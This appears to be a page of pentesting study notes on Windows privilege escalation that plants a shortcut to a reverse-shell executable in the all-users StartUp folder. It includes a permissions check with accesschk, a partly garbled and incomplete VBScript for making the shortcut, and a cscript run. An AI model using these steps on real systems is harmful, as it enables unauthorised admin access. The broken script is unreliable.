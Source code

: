 # Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

{% hint style="info" %}
Note that shortcut files (.lnk) must be used. The following VBScript can be used:
{% endhint %}

```
to create a shortcut file:
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.Target
```

#### reverse.lnk is our reverse shell executable.

![](<../../../.gitbook/assets/image (158).png>)

Use accesschk.exe to check permissions on the StartUp directory:

```
\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![](<../../../.gitbook/assets/image (157).png>)

Note that the BUILTIN\Users group has write access to this directory.

Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

![](<../../../.gitbook/assets/image (161).png>)

Run the script using cscript:

```
cscript CreateShortcut.vbs
```

![](<../../../.gitbook/assets/image (162).png>)

no we wait for the admin to login:

![](<../../../.gitbook/assets/image (156).png>)
